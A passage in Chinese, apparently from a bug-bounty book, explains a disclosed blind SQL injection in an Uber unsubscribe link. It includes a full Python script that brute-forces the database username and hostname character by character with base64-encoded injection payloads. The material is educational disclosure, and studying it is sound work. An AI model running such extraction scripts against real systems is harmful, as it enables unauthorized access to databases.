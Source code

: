 在 Orange 重新编码修改后的负载并将其传递给 URL 参数后，他访问了取消订阅链接，确认 HTTP 响应至少延迟了 12 秒。意识到他需要更具体的 SQLi 证据以便发送给 Uber，他通过暴力破解导出了用户名、主机名和数据库名。通过这种方式，他证明了自己可以从 SQLi 漏洞中提取信息，而无需访问机密数据。

一个名为 `user` 的 SQL 函数返回数据库的用户名和主机名，形式为 *<user>*@*<host>*。由于 Orange 无法访问他注入的查询的输出，他无法直接调用 `user`。相反，Orange 修改了查询，增加了一个条件检查，当查询查找他的用户 ID 时，使用 `mid` 函数逐一比较数据库用户名和主机名字符串的每个字符。与之前的 Yahoo! Sports 盲 SQLi 漏洞类似，Orange 使用了比较语句和暴力破解来推导用户名和主机名字符串的每个字符。

例如，Orange 使用 `mid` 函数获取 `user` 函数返回值的第一个字符。然后他比较该字符是否等于 `'a'`，然后是 `'b'`，然后是 `'c'`，以此类推。如果比较语句为真，服务器将执行取消订阅命令。这个结果表明 `user` 函数的返回值的第一个字符与正在比较的字符相等。如果语句为假，服务器将不会尝试取消订阅 Orange。通过使用这种方法检查 `user` 函数返回值的每个字符，Orange 最终能够推导出整个用户名和主机名。

手动暴力破解一个字符串需要时间，因此 Orange 创建了一个 Python 脚本，代表他生成并提交有效负载给 Uber，具体如下：

```
➊ import json

   import string

   import requests

   from urllib import quote

   from base64 import b64encode

➋ base = string.digits + string.letters + '_-@.'

➌ payload = {"user_id": 5755, "receiver": "blog.orange.tw"}

➍ for l in range(0, 30):

    ➎ for i in base:

        ➏ payload['user_id'] = "5755 and mid(user(),%d,1)='%c'#"%(l+1, i)

        ➐ new_payload = json.dumps(payload)

           new_payload = b64encode(new_payload)

           r = requests.get('http://sctrack.email.uber.com.cn/track/unsubscribe.

   do?p='+quote(new_payload))

        ➑ if len(r.content)>0:

                   print i,

                   break
```

Python 脚本以五行`import`语句开始➊，这些语句加载了 Orange 需要用来处理 HTTP 请求、JSON 和字符串编码的库。

数据库的用户名和主机名可以由大写字母、小写字母、数字、连字符（`-`）、下划线（`_`）、@符号（`@`）或句点（`.`）的任意组合构成。在 ➋ 处，Orange 创建了 `base` 变量来保存这些字符。 ➌ 处的代码创建了一个变量来保存脚本发送到服务器的有效负载。 ➏ 处的代码是注入部分，使用了 ➍ 和 ➎ 处的 `for` 循环。

让我们详细查看 ➏ 处的代码。Orange 使用字符串`user_id`来引用他的用户 ID 5755，这个字符串在 ➌ 处已定义，以创建他的有效负载。他使用 `mid` 函数和字符串处理构造了一个类似于本章前面提到的 Yahoo! 漏洞的有效负载。有效负载中的 `%d` 和 `%c` 是字符串替换占位符。`%d` 表示一个数字数据，而 `%c` 表示字符数据。
